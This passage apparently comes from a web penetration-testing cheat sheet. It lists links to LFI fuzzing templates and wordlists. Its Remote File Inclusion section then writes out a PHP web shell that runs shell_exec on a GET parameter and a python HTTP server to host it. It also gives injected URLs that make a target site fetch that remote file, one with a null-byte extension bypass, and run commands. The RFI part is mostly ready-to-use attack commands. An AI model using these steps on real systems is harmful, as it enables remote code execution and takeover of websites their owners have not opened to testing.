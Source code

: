 https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/master/fuzzing/linux-lfi-fuzzing.yamlhttps://raw.githubusercontent.com/CharanRayudu/Custom-Nuclei-Templates/main/dir-traversal.yaml

### Wordlists

- > burp-parameter-names.txt - Wordlist for parameter fuzzing

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt

- > Wordlist LFI - Linux

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

- > Wordlist LFI - Windows

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

- > bypass_lfi.txt

https://github.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/blob/main/wordlists/lfi_bypass.txt

- > poisoning.txt

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/wordlists/posoning.txt

## Remote File Inclusion (RFI)

### RFI to Webshell with null byte for image extension bypass

```
echo "<?php echo shell_exec($_GET['cmd']); ?>" > evil.txt
python -m http.server 80

```

```
<http://site.com/menu.php?file=http://><IP>/evil.php%00.png

```

### RFI to Webshell with txt

```
echo '<?php echo shell_exec($_GET["cmd"]); ?>' > evil.txt
python -m http.server 80

```

```
<http://site.com/menu.php?file=http://><IP>/evil.txt&cmd=ipconfig

```
